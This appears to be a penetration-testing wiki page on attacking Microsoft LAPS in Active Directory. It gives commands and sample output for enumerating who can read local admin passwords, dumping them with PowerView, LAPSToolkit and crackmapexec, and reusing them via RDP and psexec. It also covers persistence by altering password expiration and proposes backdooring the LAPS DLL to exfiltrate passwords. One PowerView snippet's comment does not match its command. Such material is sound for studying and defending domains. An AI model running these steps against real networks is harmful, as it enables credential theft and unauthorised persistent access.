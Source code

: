 # LAPS


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) is a tool used for managing a system where **administrator passwords**, which are **unique, randomized, and frequently changed**, are applied to domain-joined computers. These passwords are stored securely within Active Directory and are only accessible to users who have been granted permission through Access Control Lists (ACLs). The security of the password transmissions from the client to the server is ensured by the use of **Kerberos version 5** and **Advanced Encryption Standard (AES)**.

In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: **`ms-mcs-AdmPwd`** and **`ms-mcs-AdmPwdExpirationTime`**. These attributes store the **plain-text administrator password** and **its expiration time**, respectively.

### Check if activated

```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

### LAPS Password Access

You could **download the raw LAPS policy** from `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` and then use **`Parse-PolFile`** from the [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

Moreover, the **native LAPS PowerShell cmdlets** can be used if they're installed on a machine we have access to:

```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

**PowerView** can also be used to find out **who can read the password and read it**:

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilitates the enumeration of LAPS this with several functions.\
One is parsing **`ExtendedRights`** for **all computers with LAPS enabled.** This will show **groups** specifically **delegated to read LAPS passwords**, which are often users in protected groups.\
An **account** that has **joined a computer** to a domain receives `All Extended Rights` over that host, and this right gives the **account** the ability to **read passwords**. Enumeration may show a user account that can read the LAPS password on a host. This can help us **target specific AD users** who can read LAPS passwords.

```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
If there is no access to a powershell you can abuse this privilege remotely through LDAP by using 
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
This will dump all the passwords that the user can read, allowing you to get a better foothold with a different user.

## ** Using LAPS Password **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```

## **LAPS Persistence**

### **Expiration Date**

Once admin, it's possible to **obtain the passwords** and **prevent** a machine from **updating** its **password** by **setting the expiration date into the future**.

```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

{% hint style="warning" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}

### Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd), therefore it's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

Then, just compile the new `AdmPwd.PS.dll` and upload it to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

